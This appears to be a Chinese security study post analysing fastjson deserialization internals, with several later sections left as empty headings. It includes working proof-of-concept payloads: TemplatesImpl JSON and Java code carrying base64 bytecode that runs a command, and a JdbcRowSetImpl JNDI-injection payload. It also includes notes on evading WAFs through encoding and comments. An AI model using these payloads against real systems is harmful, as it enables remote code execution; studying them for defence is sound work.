* fastjson的基本使用介绍
* fastjson反序列化的分析
* 各版本的利用和防御绕过
* 原生URL反序列化和fastjson反序列化
  * 也不能直接dnslog

* waf对抗
* fastjson组件的识别
* 利用工具
* 补充
  * 第三种写法真的无法利用吗
    * 多态？（反序列化的危险类是要反序列化对象属性的子类或父类）
  * 看看JSONObject的动态代理

### 前言

这篇文章包含如下内容：

* fastjson的介绍
* fastjson反序列化过程分析：这一部分基本是代码调试到哪写到哪，没有做一个调用关系图，所以看起来会比较乱。建议读者自己调试一下反序列化过程，调试的时候可以把这部分的内容当做一点参考，更加便于自己理解。
* fastjson常见利用链和Payload的分析
* fastjson全版本补丁和绕过分析
* 渗透测试中如何探测json库
* 渗透测试中如何探测fastjson的版本
* 渗透测试如何利用fastjson服务器信息
* fastjson相关的工具介绍与使用
* 个人的一点学习心得

### fastjson的基本使用

#### 简介

* FastJson 是阿⾥巴巴的开源 JSON 解析库，它可以解析 JSON 格式的字符串，⽀持将 Java Bean 序列 化为JSON字符串，也可以从JSON字符串反序列化到 Java Bean 。

#### 序列化

* 最常用的序列化函数为JSON.toJSONString

```java
package org.example;

import com.alibaba.fastjson.JSON;
import com.alibaba.fastjson.serializer.SerializerFeature;

import java.util.Properties;

public class User {
    private String name;
    private int age;
    private Flag flag;
    public String publictest;
    private String privatetest;
    private Student student;
    public Properties prop;

    public User() {
        System.out.println("User constructor has called.");
        this.name = "p1g3";
        this.age = 19;
        this.flag = new Flag();
        this.publictest = "test";
        this.privatetest = "test";
        this.student = new Student();

        this.prop = new Properties();
        this.prop.put("name", "666");
    }

    public String getName() {
        System.out.println("getName has called.");
        return name;
    }

    public void setName(String name) {
        System.out.println("setName has called.");
        this.name = name;
    }

    public int getAge() {
        System.out.println("getAge has called.");
        return age;
    }

    public void setAge(int age) {
        System.out.println("setAge has called.");
        this.age = age;
    }

    public Flag getFlag() {
        System.out.println("getFlag has called.");
        return flag;
    }

    public void setFlag(Flag flag) {
        System.out.println("setFlag has called.");
        this.flag = flag;
    }

    @Override
    public String toString() {
        return "User{" +
                "name='" + name + '\'' +
                ", age=" + age +
                ", flag=" + flag +
                '}';
    }

    public Student getStudent() {
        System.out.println("getStudent has called.");
        return student;
    }

    public void setStudent(Student student) {
        System.out.println("setStudent has called.");
        this.student = student;
    }

    public static void main(String[] args) {
        String  serJson0 = JSON.toJSONString(new User());
        System.out.println(serJson0);
        System.out.println("----------------------------");
        String  serJson1 = JSON.toJSONString(new User(), SerializerFeature.WriteClassName);
        System.out.println(serJson1);

    }
}

class Flag{
    private String flag;

    public Flag(){
        System.out.println("Flag constructor has called.");
        this.flag = "flag{d0g3_learn_java}";
    }

    public String getFlag() {
        System.out.println("getFlag has called.");
        return flag;
    }

    public void setFlag(String flag) {
        System.out.println("setFlag has called.");
        this.flag = flag;
    }
}

```

```xml
 <dependencies>
        <dependency>
            <groupId>com.alibaba</groupId>
            <artifactId>fastjson</artifactId>
            <version>1.2.23</version>
        </dependency>
    </dependencies>
```


我们先查看`String  serJson0 = JSON.toJSONString(new User());`的结果



注意到，序列化过程中调用了属性的get方法，私有属性且没有get方法的，没有被序列化。

再看`JSON.toJSONString(new User(), SerializerFeature.WriteClassName);`



首先解释一下这里的@Type，很容易看出，这个字段标识出了对象的类型。JSON 标准是不⽀持⾃省的，也就是说根据 JSON ⽂本，不知道它包含的对象的类型。 FastJson ⽀持⾃省，在序列化时传⼊类型信息 SerializerFeature.WriteClassName ，可以得到能表明对象类型的 JSON ⽂本。但是可以发现，这里的Flag和Student（在同一个包下定义的一个简单的public类）并没有@Type，原因是在序列化的过程中，在有了`"@type":"org.example.User"`后Flag和Student的类型是明确的，在同一个包下即可找到。

#### 三种反序列化的用法

```java
public class Main {
    public static void main(String[] args) {
        String serJson0 = "{\"age\":19,\"flag\":{\"flag\":\"flag{d0g3_learn_java}\"},\"name\":\"p1g3\",\"prop\":{\"name\":\"666\"},\"publictest\":\"test\",\"student\":{\"age\":10,\"name\":\"st\"}}";
        System.out.printf("Parse had done => %s\n", JSON.parse(serJson0).getClass());
        System.out.printf("parseObject one has done => %s\n",JSON.parseObject(serJson0).getClass());
        System.out.printf("parseObject second has done => %s\n",JSON.parseObject(serJson0,User.class).getClass());

        System.out.println("------------------------------------------");

        String serJson1 = "{\"@type\":\"org.example.User\",\"age\":19,\"flag\":{\"flag\":\"flag{d0g3_learn_java}\"},\"name\":\"p1g3\",\"prop\":{\"@type\":\"java.util.Properties\",\"name\":\"666\"},\"publictest\":\"test\",\"student\":{\"age\":10,\"name\":\"st\"}}";
        System.out.printf("Parse had done => %s\n", JSON.parse(serJson1).getClass());
        System.out.printf("parseObject one has done => %s\n",JSON.parseObject(serJson1).getClass());
        System.out.printf("parseObject second has done => %s\n",JSON.parseObject(serJson1,User.class).getClass());


    }
}
```

parseObject和parse差别不大

```java
public static JSONObject parseObject(String text) {
    Object obj = parse(text);
    if (obj instanceof JSONObject) {
        return (JSONObject)obj;
    } else {
        try {
            return (JSONObject)toJSON(obj);
        } catch (RuntimeException var3) {
            RuntimeException e = var3;
            throw new JSONException("can not cast to JSONObject.", e);
        }
    }
}
```

先看`serJson0`的三种反序列化



从输出中可以看到，在调⽤parse以及第⼀种调⽤parseObject的⽅式，并没有正常的反序列化JSON数据，只有第三种使⽤⽅式才将JSON数据正确还原为⼀ 个对象。并且从输出中还可以得知，Fastjson在反序列化时主要调⽤的是每个属性的set⽅法，并且当属性为对象时会调⽤该对象的⽆参构造器去创建对象。没有反序列化成功的原因，对比第三种反序列化方式，可以很简单地推理出，显然fastjson无法确认我们反序列化的是哪个类。

再看`serJson1`的反序列化

```txt
User constructor has called.
Flag constructor has called.
setAge has called.
Flag constructor has called.
setFlag has called.
setFlag has called.
setName has called.
setStudent has called.
Parse had done => class org.example.User
User constructor has called.
Flag constructor has called.
setAge has called.
Flag constructor has called.
setFlag has called.
setFlag has called.
setName has called.
setStudent has called.
getAge has called.
getFlag has called.
getName has called.
getStudent has called.
getFlag has called.
parseObject one has done => class com.alibaba.fastjson.JSONObject
User constructor has called.
Flag constructor has called.
setAge has called.
Flag constructor has called.
setFlag has called.
setFlag has called.
setName has called.
setStudent has called.
parseObject second has done => class org.example.User
```

第二种的反序列化方式的差异在于`toJSON(obj)`。

根据上面的调试分析，不难发现这里反序列化的漏洞的产生是由于反序列化的类是可控的导致攻击者可以寻找危险的set或get⽅法去调⽤从⽽触发漏洞。

### fastjson反序列化的分析(1.2.23)

三种反序列化写法的核心逻辑差异基本相同，所以这里仅仅对第二种反序列化写法进行调试分析。<u>下文的调试过程采用的之前的json字符串，但是注意在调试带有@type和不带@type时不要写在同一个java文件中，防止缓存干扰</u>。

**对不带@type的json字符串进行反序列化**

步入parse进行分析



先初始化一个用于解析的DefaultJSONParser，在初始化的过程中，获取了input的第一个字符，并根据其设置相应的token



步入parser.parse()进行解析处理



根据之前设置的token进行选择处理


继续步入，来到下图方法，其中的for循环是最主要的解析逻辑，每次循环解析一个键值对。此时的下标在`{`的下一个位置，当前字符进行判断，根据不同结果进行不同处理，这里对`"`的情况进行分析


注意到这里的`lexer.skipWhitespace()`，梳理完代码逻辑后，会发现它在几乎所有`"`的两边调用。其代码逻辑如下，是跳过了一些特殊字符，`skipComment()`则是跳过了注释，这里对于我们绕waf或者在某些情况下需要构造畸形字符很有帮助。





接下来的`if (lexer.isEnabled(Feature.AllowArbitraryCommas))`默认是true，后面的`while (ch == ',')`也跳过了一些字符，除开之前的字符外，`,`也会被跳过



接着要解析一个key，也就是将`"`之间的字符解析出来



这里代码很长，概括来说就是将`"`之间的字符解析出来，其中需要注意的是，为了支持`\`转义，对`\`需要特殊处理，特别需要注意的是，这里支持unicode编码和hex编码。



回到`parseObject`中，后面对获取的key进行判断，是否等于`@type`，且查看`!lexer.isEnabled(Feature.DisableSpecialKeyDetect)`是true还是false，默认为true。例子中解析的第一个key为`"age"`，不为`@type`，我们接着往后走



这里还有个if，是判断引用相关的内容，这里不分析



再到后面的if分支，对value进行解析，然后将解析出的key和value put进一个JSONObject中，这个过程没有加载类的操作



**带@type的json字符串进行反序列化**

前面的过程都相同，我们到对key进行判断是否等于`@Type`的地方

首先使用类加载器加载了类，这里加载的逻辑就不具体分析了



随后的if分之内有反序列化操作，但是这里实验的例子没有进入if，简单看一下，json字符串的下一个字符为`}`就会进入这个分支。我们继续往后，进行了反序列化操作



`getDeserializer`是返回了一个反序列化器，我们步入`config.getDeserializer(clazz)`，其逻辑主要是三个if分支，第一个是尝试从缓存中获取反序列化器，第二个是若`type`为`class<?>`调用`getDeserializer((Class<?>) type, type)`获得，第三个当 `type` 是一个带参数的泛型类型（`ParameterizedType`），例如 `List<String>` 或 `Map<String, Integer>`，要先处理其原始类型。



从缓存中获取就是对比type的hash值，从一个hashmap中获取，至于这个缓存是如何产生的，暂时不讨论



我们步入`getDeserializer((Class<?>) type, type)`查看第二个if的逻辑，先尝试从缓存中读取，然后对一些特殊类型进行处理，注意到下图处，`denyList`维护了一个黑名单，不允许这个黑名单内的类获取反序列化器



继续往后，代码比较长，大量的代码是针对一些特定的类获取反序列化器，来到下图处，通过`createJavaBeanDeserializer`创建一个反序列化器



继续步入，代码依然很长，一句话总结，前面大量的代码做了两件事，一是检查类是否存在@JSONType注解且制定了一个自定义的反序列化器，存在就返回该反序列化器，二是通过很多条件检查是否启用ASM动态生成字节码来优化反序列化过程，测试的例子不符合这些条件，我们也不去具体分析，来到`return new JavaBeanDeserializer(this, clazz, type);`继续步入



这里通过`JavaBeanInfo.build(clazz, type, config.propertyNamingStrategy)`获取了一个`JavaBeanInfo`，这个类很关键，里面包含了要反序列化类的很多信息。



首先通过反射获取类的属性、方法、构造方法，这里要获取一个无参构造函数或者，当目标类为非静态内部类时，获取一个带一个外部类实例作为参数的构造函数



如果没有符合要求的构造函数，比如不为非静态内部类，但是也没有无参构造函数，则会去寻找 `@JSONCreator` 注解的构造函数或者带有`@JSONCreator` 注解的工厂方法，都没找到就抛出异常，这样的特殊情况对于我们的利用没有帮助，我们略过这一段的分析，后面还有一大段关于`JSONType.class`的代码也略过。



继续往下，对获取的方法进行遍历处理，首先排除掉一些不符合要求的方法，找到`setxxx`方法，从该方法中提取出属性名，然后获取到先前获得的属性列表中对应的属性（大致是这样的，但是在后面JdbcRowSetImpl的分析中也可以看出，没有对应的属性名也会获取一个反序列化器）



然后会根据之前获取的方法和属性new一个`FieldInfo`对象，将其添加到`fieldList`中，值得注意的是`FieldInfo`有一个属性`getOnly`，当获取方法参数数量不为1或者属性被Final修饰时，该属性被设置为`true`。

注意到，上述的遍历仅仅是获取了存在`setter`的属性，接下来继续遍历`clazz.getFields()`，即类的所有public属性（包括父类），将刚刚没有获取到的属性补充到`fieldList`中，这也解释了之前的测试结果，非public且没有`setter`的属性将不会被反序列化。



接下来继续遍历`clazz.getMethods()`，从中提取出非静态、没有参数、返回值类型满足下图条件的类的`getter`方法，然后同样地将其对应的属性生成`FieldInfo`（前面没有获取到）添加到`fieldList`中，注意其getOnly由于`getter`方法没有参数，将会设置为`true`



最后，根据之前获取的属性、构造器、方法等new一个`JavaBeanInfo`并返回。往上一层返回到`JavaBeanDeserializer#JavaBeanDeserializer`，继续返回到`ParserConfig#createJavaBeanDeserializer`，再往上返回到`ParserConfig#getDeserializer(Class<?> clazz, Type type)`，再往上返回到`ParserConfig#getDeserializer(Type type)`，最终将反序列化器返回，我们也回到`DefaultJSONParser#parseObject`中。

看一下反序列化器的属性：

1. derializer 有一个属性`sortedFieldDeserializers`包含了要反序列化类的属性，2. config有一个denyList属性，是一个黑名单，写明了禁止反序列化的类，3. 获取beanInfo





步入`deserialze`，由于后面的代码过于复杂，需要明确一下分析的目标，主要是三点：1. 加载的类是如何实例化的，这也涉及到类get和set方法的调用，对我们的攻击至关重要；2. 在解析了`@type`字段后，就开始了类的反序列化操作，json字符串的其他部分还没有解析，大致了解一下是如何进行解析的；3. 一些需要关注的细节问题，例如有没有一些跳过特殊字符的操作，有没有一些动态调用类的方法、初始化类的操作可以利用。

步入deserialze后发现一个for循环，这个for遍历`sortedFieldDeserializers`结合json字符串的内容，实例化我们加载的类



在这个循环中，来到`if (fieldDeser != null)`内，开始对类的属性进行反序列化，我们先看例子中的`age`，是基本类型`int`，这里匹配类型后使用`lexer.scanFieldInt`从json字符串中获得了值，再往后来到下图代码处，开始实例化类



步入方法，首先判断要实例化的是否是接口，如果是，则使用JSONObject代理该接口



后续使用反序列化器的beanInfo中的构造器来实例化类，如果该构造器无参，直接实例化



如果有参，这里是只考虑到了内部类实例化的情况，`else`里的大段代码这里就略过了。

实例化后，还有一个检查，是否开启了`Feature.InitStringFieldAsEmpty`（默认关闭），如果开启了，就会把刚刚实例化产生的对象的`String`类型的属性设置为空字符串。如果先前已经获取到了对应属性的set方法，将会调用该方法设置，否则通过反射设置。





实例化产生的对象return到`JavaBeanDeserializer#deserialize`中，到下图代码处，将先前解析出的值set给对象



步入`FieldDeserializer#setValue`，如果先前获取到了属性的set方法，且`getOnly`不为true，则会调用set方法；按照之前的分析，一些情况下`getOnly`为true，这些情况加将会调用获取到的get方法





如果连set方法都没有获取到，则会通过反射赋值。



至此，类被实例化，第一个属性被反序列化。我们这里继续跟一下这个反序列化类属性的for循环，主要是分析一下它是如何反序列化非基本类型的。

要解析的第二个属性是`flag`，不是基本类型，首先取得了key为`flag`，在后续的类型匹配时没有和一些基本类型匹配上，于是代码到下图



步入，首先获取到一个反序列化器，这个过程和之前类似，然后递归调用`javaBeanDeser.deserialze`，在反序列化`"flag{d0g3_learn_java}"`后，再通过`FieldDeserializer#setValue`将属性赋值





**分析第二种写法的get调用情况**（TODO）

```java
System.out.printf("parseObject one has done => %s\n",JSON.parseObject(serJson1).getClass());
```

从上述代码运行的结果中可以观察到第二种写法和其他两种有些不同，打印的结果中调用了类的`getter`方法，对比后不难发现原因在于



#### 总结

* JSON中的键&值均可使⽤unicode编码 & ⼗六进制编码（可⽤于绕过WAF检测） 
* JSON解析时会忽略双引号外的所有空格、换⾏、注释符（可⽤于绕过WAF检测）
* 反序列化过程中会调用类的构造器（一般是无参）
* 反序列化过程中会调用属性相应的set方法
* 一些满足特点要求的类在反序列化过程中会调用相应属性的get方法
* 拥有`setter`、特定要求的`getter`、public的属性会被反序列化（默认设置下）
* 第二种反序列化写法会调用属性的get方法（TODO）

### 补充：第三种写法的反序列化情况

三种写法的反序列化过程的核心逻辑是相同的，`JSON.parseObject(serJson0)`、`JSON.parse(serJson0)`和`JSON.parseObject(serJson0,User.class)`的显著不同在于前两者支持autoType，而第三种写法指定了要反序列化的类。从先前的反序列化过程中，我们可以发现fastjson是从`@type`确定的要反序列化是哪个类，虽然第三种写法指定了要反序列化的类，但如果它也是从`@type`中确定要反序列化的是哪个类，那仍然可以被我们利用。

我们使用后文介绍的`TemplatesImpl`链进行测试，使用如下四种写法：

```java
// Feature.SupportNonPublicField后文介绍，暂时不必管
// User一个和TemplatesImpl无关的类
JSON.parseObject(longString, User.class,Feature.SupportNonPublicField);
JSON.parseObject(longString, TemplatesImpl.class,Feature.SupportNonPublicField);
// TemplatesImpl实现了Templates接口
JSON.parseObject(longString, Templates.class,Feature.SupportNonPublicField);
// Object是所有类的父类
JSON.parseObject(longString, Object.class,Feature.SupportNonPublicField);
```

测试的结果是，除了`User.class`抛出异常`type not match`以外，其他三种写法均可以弹出计算机。我们先跟一跟`User.class`的情况，看一下是如何抛出异常的。步入到下图位置：



这里已经获取到了一个反序列化器，但并不是`@type`后的类型。将要运行的这行代码是要解析并返回解析的结果，我们继续步入到下图位置：



与先前的解析是类似的，这里的`key`获取到了`@type`。继续往后运行



这里会进行一个判断，如果指定要反序列化的类不为null(这里是`User.class`)或者`@type`是指定反序列化类的子类或本身，则根据`@type`获取反序列化器进行反序列化，反之抛出异常。


**总结：**

通过上面的分析，搞清楚了第三种写法在显示反序列化类是我们恶意反序列化父类的情况下，可以被我们利用。

但是深入思考一下，还存在这样一种情况，显示反序列化类不是恶意类的父类，但是它有属性是恶意类的父类，我们是否可以通过将其属性设置为恶意类来进行利用攻击呢？按照逻辑来说，应该是可以这样的，这里就不过多分析了，哪天在实践中遇到了再进行分析吧。

### 几个利用链的补充分析

#### TemplatesImpl

```java
public class HelloTemplatesImpl {
    public static void main(String[] args) throws TransformerConfigurationException {
        byte[] code = Base64.getDecoder().decode("yv66vgAAADQANwoADAAbCQAcAB0IAB4KAB8AIAoAIQAiCAAjCgAhACQHACUHACYKAAkAJwcAKAcAKQEABjxpbml0PgEAAygpVgEABENvZGUBAA9MaW5lTnVtYmVyVGFibGUBAAl0cmFuc2Zvcm0BAHIoTGNvbS9zdW4vb3JnL2FwYWNoZS94YWxhbi9pbnRlcm5hbC94c2x0Yy9ET007W0xjb20vc3VuL29yZy9hcGFjaGUveG1sL2ludGVybmFsL3NlcmlhbGl6ZXIvU2VyaWFsaXphdGlvbkhhbmRsZXI7KVYBAApFeGNlcHRpb25zBwAqAQCmKExjb20vc3VuL29yZy9hcGFjaGUveGFsYW4vaW50ZXJuYWwveHNsdGMvRE9NO0xjb20vc3VuL29yZy9hcGFjaGUveG1sL2ludGVybmFsL2R0bS9EVE1BeGlzSXRlcmF0b3I7TGNvbS9zdW4vb3JnL2FwYWNoZS94bWwvaW50ZXJuYWwvc2VyaWFsaXplci9TZXJpYWxpemF0aW9uSGFuZGxlcjspVgEACDxjbGluaXQ+AQANU3RhY2tNYXBUYWJsZQcAJQEAClNvdXJjZUZpbGUBABBDYWxjRXhhbXBsZS5qYXZhDAANAA4HACsMACwALQEADENhbGMgRXhhbXBsZQcALgwALwAwBwAxDAAyADMBAAhjYWxjLmV4ZQwANAA1AQATamF2YS9pby9JT0V4Y2VwdGlvbgEAGmphdmEvbGFuZy9SdW50aW1lRXhjZXB0aW9uDAANADYBAAtDYWxjRXhhbXBsZQEAQGNvbS9zdW4vb3JnL2FwYWNoZS94YWxhbi9pbnRlcm5hbC94c2x0Yy9ydW50aW1lL0Fic3RyYWN0VHJhbnNsZXQBADljb20vc3VuL29yZy9hcGFjaGUveGFsYW4vaW50ZXJuYWwveHNsdGMvVHJhbnNsZXRFeGNlcHRpb24BABBqYXZhL2xhbmcvU3lzdGVtAQADb3V0AQAVTGphdmEvaW8vUHJpbnRTdHJlYW07AQATamF2YS9pby9QcmludFN0cmVhbQEAB3ByaW50bG4BABUoTGphdmEvbGFuZy9TdHJpbmc7KVYBABFqYXZhL2xhbmcvUnVudGltZQEACmdldFJ1bnRpbWUBABUoKUxqYXZhL2xhbmcvUnVudGltZTsBAARleGVjAQAnKExqYXZhL2xhbmcvU3RyaW5nOylMamF2YS9sYW5nL1Byb2Nlc3M7AQAYKExqYXZhL2xhbmcvVGhyb3dhYmxlOylWACEACwAMAAAAAAAEAAEADQAOAAEADwAAAC0AAgABAAAADSq3AAGyAAISA7YABLEAAAABABAAAAAOAAMAAAARAAQAEgAMABMAAQARABIAAgAPAAAAGQAAAAMAAAABsQAAAAEAEAAAAAYAAQAAABgAEwAAAAQAAQAUAAEAEQAVAAIADwAAABkAAAAEAAAAAbEAAAABABAAAAAGAAEAAAAdABMAAAAEAAEAFAAIABYADgABAA8AAABUAAMAAQAAABe4AAUSBrYAB0unAA1LuwAJWSq3AAq/sQABAAAACQAMAAgAAgAQAAAAFgAFAAAADAAJAA8ADAANAA0ADgAWABAAFwAAAAcAAkwHABgJAAEAGQAAAAIAGg==");
        TemplatesImpl obj = new TemplatesImpl();
        // _bytecodes为要加载的字节数组（二维数组）
        setFieldValue(obj, "_bytecodes", new byte[][] {code});
        // _name为String类型且必须有值，不需要是类名
        setFieldValue(obj, "_name", "CalcExample");
        // _tfactory类型为TransformerFactoryImpl，且必须有getExternalExtensionsMap方法
        setFieldValue(obj, "_tfactory", new TransformerFactoryImpl());
        obj.newTransformer();
    }

    private static void setFieldValue(Object obj, String propertyName, Object value) {
        try {
            // 获取对象的类
            Class<?> clazz = obj.getClass();
            // 获取指定名称的属性
            Field field = clazz.getDeclaredField(propertyName);
            // 设置属性的访问权限
            field.setAccessible(true);
            // 设置属性值
            field.set(obj, value);
        } catch (NoSuchFieldException | IllegalAccessException e) {
            e.printStackTrace();
        }
    }
}
```

加载的类如下，必须继承`AbstractTranslet`，原因在于调用链的中加载类到实例化类之间有一处强制类型转换的操作

```java
public class CalcExample extends AbstractTranslet {
    static{
        try {
            Process process = Runtime.getRuntime().exec("calc.exe");
        } catch (IOException e) {
            throw new RuntimeException(e);
        }
    }
    public CalcExample(){
        System.out.println("Calc Example");
    }

    @Override
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {

    }

    @Override
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {

    }
}
```

**利用链流程梳理**

大致的利用链如下，注意TemplatesImpl#defineTransletClasses()和Constructor#newInstance()均在TemplatesImpl#getTransletInstance()中被调用。这里的调用链是很简单的，但是我们需要搞清楚为什么需要设置`_bytecodes` `_name` `_tfactory`这三个属性

```txt
TemplatesImpl#newTransformer()->
	TemplatesImpl#getTransletInstance()->
		TemplatesImpl#defineTransletClasses()->
			TemplatesImpl#getTransletInstance()->
				TransletClassLoader#defineClass()
		Constructor#newInstance()
```

`_bytecodes` 设置的原因在方法`TemplatesImpl#defineTransletClasses()`中，该方法遍历并加载二维数组`_bytecodes`


`_name`设置的原因在于`TemplatesImpl#getTransletInstance()`该函数调用`defineTransletClasses()`之前，会有一个对于`_name`是否为空的判断



`_tfactory`设置的原因在于`TemplatesImpl#defineTransletClasses()`在加载类之前会调用`_tfactory.getExternalExtensionsMap()`



#### JdbcRowSetImpl

```java
public class TestJdbcRowSetImpl {
    public static void main(String[] args) throws SQLException {
        JdbcRowSetImpl rowSet = new JdbcRowSetImpl();
        rowSet.setDataSourceName("rmi://localhost:1999/obj");
        rowSet.setAutoCommit(true);
    }
}
```

这条利用链梳理起来非常简单，首先调用`setDataSourceName`设置父类的一个属性`dataSource`




`setAutoCommit`触发JDNI注入





### 漏洞历史

#### Fastjson<=1.2.24

该版本默认启用autoType

##### TemplatesImpl利用链

**利用前提**：fastjson显示设置`Feature.SupportNonPublicField`

**Payload**

```json
{ 
    "@type": "com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl",
    "_bytecodes": [ "yv66vgAAADQAJgoAAwAPBwAhBwASAQAGPGluaXQ+AQADKClWAQAEQ29kZQEAD0xpbmVOdW1iZXJUYWJsZQEAEkxvY2FsVmFyaWFibGVUYWJsZQEABHRoaXMBAARBYUFhAQAMSW5uZXJDbGFzc2VzAQAdTGNvbS9sb25nb2ZvL3Rlc3QvVGVzdDMkQWFBYTsBAApTb3VyY2VGaWxlAQAKVGVzdDMuamF2YQwABAAFBwATAQAbY29tL2xvbmdvZm8vdGVzdC9UZXN0MyRBYUFhAQAQamF2YS9sYW5nL09iamVjdAEAFmNvbS9sb25nb2ZvL3Rlc3QvVGVzdDMBAAg8Y2xpbml0PgEAEWphdmEvbGFuZy9SdW50aW1lBwAVAQAKZ2V0UnVudGltZQEAFSgpTGphdmEvbGFuZy9SdW50aW1lOwwAFwAYCgAWABkBAARjYWxjCAAbAQAEZXhlYwEAJyhMamF2YS9sYW5nL1N0cmluZzspTGphdmEvbGFuZy9Qcm9jZXNzOwwAHQAeCgAWAB8BABNBYUFhNzQ3MTA3MjUwMjU3NTQyAQAVTEFhQWE3NDcxMDcyNTAyNTc1NDI7AQBAY29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL3J1bnRpbWUvQWJzdHJhY3RUcmFuc2xldAcAIwoAJAAPACEAAgAkAAAAAAACAAEABAAFAAEABgAAAC8AAQABAAAABSq3ACWxAAAAAgAHAAAABgABAAAAHAAIAAAADAABAAAABQAJACIAAAAIABQABQABAAYAAAAWAAIAAAAAAAq4ABoSHLYAIFexAAAAAAACAA0AAAACAA4ACwAAAAoAAQACABAACgAJ"],
    "_name": "aaa",
    "_tfactory": {},
    "_outputProperties": {}
  }
```

fastjson的反序列化过程和java原生反序列化过程是不一样的，为什么`TemplatesImpl`链在这里还能发挥作用呢，根据之前对于改链的分析，我们了解到了该利用链触发的前提需要设置一些属性，fastjson是如何做到的，另外fastjson又是如何触发利用链的。

**属性的设置**

首先来说属性的设置问题，回忆一下，在先前分析的反序列化，fastjson在获得反序列化器是如何确定要反序列化的属性的，它在`JavaBeanInfo#build()`中根据获取具有`setter`方法和满足特定要求`getter`方法的属性，根据先前的分析，这里并不包括我们需要设置的三个属性。我们再来到`JavaBeanDeserializer#deserialze`中下图所示的`for`循环



这里将要遍历json字符串中所有的属性，首先从先前获取的反序列化器中取出一个属性的反序列化器，然后对这个属性做一个判断，如果是指定类型，则根据反序列化器的属性名从json字符串中获取对应的value，后续使用反序列化器反序列化该属性。这里获取到了`outputProperties`的反序列化器，但是由于该属性不满足指定类型，也没有在json字符串中找到对应的key（json中是\_outputProperties），没有做任何处理。



如果没有获取到反序列化器，直接从json字符串中扫描一个属性名，然后调用获取的目标类的构造器new一个对象，再后开始解析这个属性。以`_bytecodes`为例，由于没有`setter`和`getter`，也不是`public`，没有获取到它的反序列化器，但从json中直接找到了



这里步入该解析函数看一下，其他逻辑不太关心，主要是这里的判断很关键，如果不满足条件，则无法进入获取反序列化器，后续也无法成功反序列化该属性，对于`_bytecodes`来说，它之前没有获取到反序列化器，不满足`fieldDeserializer==null`，必须满足后面的条件，因此我们必须显示设置`Feature.SupportNonPublicField`，`_name`和`_tfactory`也是同样的道理。这里提一下，在java原生反序列化的TemplatesImpl链中，我们需要将`_tfactory`设置为指定类型，在fastjson中，发序列化是通过获取类的反序列化器进行的，会调用类的构造器，所以json字符串中写`{}`代表一个`object`，即可以将`_tfactory`设置为指定类型。



**利用链的触发**

注意到`Templateslmpl#getOutputProperties()`中是调用`newTransformer()`的，这就和之前TemplateImpl的利用链连接起来了，那我们来看看`getOutputProperties()`是如何被调用的。

从前面的分析中已经得知，由于`Templateslmpl#getOutputProperties()`满足非静态、返回值是指定类型，在`JavaBeanInfo#build()`获得了包含`getOutputProperties()` 方法的`outputProperties`的反序列化器。后续在属性反序列化的过程中，遍历到该构造器，由于一些条件没有满足，并没有直接使用该反序列化器反序列化属性。后续继续扫描json字符串，在扫描到`_outputProperties`时对其进行反序列化处理，反序列化器会尝试从先前获取的反序列化器中获取，形如`_outputProperties`是可以获取到`outputProperties`的反序列化器，后续使用该反序列化器反序列化属性的过程中在`setValue`中通过反射调用了`Templateslmpl#getOutputProperties()`，这个前文已经分析过了。

**json字符串顺序的影响**

注意到Templateslmpl链必须在触发前对相应属性赋值，在fastjson反序列化的过程中，在反序列化`_outputProperties`属性时会触发利用链，所以json字符串是有顺序的，前提属性必须写在前。

##### JdbcRowSetImpl利用链

**利用前提**：这里漏洞产生的根本原因是JDNI注入，要满足JNDI注入的条件（详情见JNDI注章节）

**Payload**

```json
{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"ldap://localhost:389/obj","autoCommit":true}
```

这里`dataSourceName`可以用`ldap`也可以用`rmi`，指向一个恶意服务

**分析**

这条链比较简答，fastjson对于`autoCommit`的触发也是比较简单明了的，我们还是分析一下为什么json字符串为何要如此构造。初看到这个Payload，`dataSourceName`是比较引人注意的，因为`JdbcRowSetImpl`及其父类中是没有这个属性的。回忆之前的分析，fastjson在`JavaBeanInfo#build()`中是可以获取到相应的反序列化器的，反序列化器中包含`setDataSourceName()`这个方法，后续在序列化类的属性时，如果有相应的反序列化器，是使用的反序列化器来进行反序列化，而没有直接通过属性设置。fastjson要从json字符串中取得`setDataSourceName()`参数的值，根据之前的分析其实可以得知，fastjson会尝试从json中取得与方法名对应的`dataSourceName`，所以这里的json字符串用到的是`dataSourceName`。

到这，发现对fastjson的理解有一定的偏差，json字符串中的并不一定是属性，而是优先表示在反序列化过程中调用同名的`set`或`get`方法。

这里再给一个例子理解上述说法：

```java
public class TestSet {
    private int a;
    private int b;
    private int c;
    public TestSet() {
        this.a = 0;
        this.b = 0;
        this.c = 0;
    }
    public void setAbc(int a) {
        System.out.println("setAbc:"+a);
        this.a = 1;
        this.b = 1;
        this.c = 1;
    }

}
```

```java
import java.lang.reflect.Field;

public class Test {
    public static void main(String[] args) throws IllegalAccessException {
        String serJson1 = "{\"@type\":\"org.example.TestSet\",\"abc\":\"666\"}";
        TestSet testSet1 = (TestSet) JSON.parse(serJson1);
        Class<?> clazz = testSet1.getClass();

        // 获取当前类的属性和值
        Field[] fields = clazz.getDeclaredFields();
        for (Field field : fields) {
            field.setAccessible(true);
            System.out.println("属性名: " + field.getName() + ", 值: " + field.get(testSet1));
        }
    }
}
```

运行结果如下：



#### 补充分析

  本来写完前面的内容，感觉后面的东西不多了，但是梳理了一下fastjson后续的补丁和针对补丁的绕过，绷不住了。由于一个个版本分析实在遭不住，这里补充分析一下三点和安全紧密相关的内容，后续到具体版本就不再具体分析了。

##### fastjson autoType的设置

  在<=Fastjson 1.2.24时是默认开启autoType的，在之后都设置为默认关闭

##### fastjson黑名单机制和绕过

##### fastjson缓存机制和利用

##### loadClass的特性

#### 1.2.25<=Fastjson<=1.2.41

**修复**：1. 添加黑名单，不允许一些类反序列化；2. 默认关闭autoType

##### 在开启autoType的情况下绕过黑名单

##### 绕过autoType和黑名单

### 补充一下其他利用链


### 探测

#### json反序列化库的探测

#### fastjson关键版本探测

#### 服务器环境探测

### 工具

### 总结

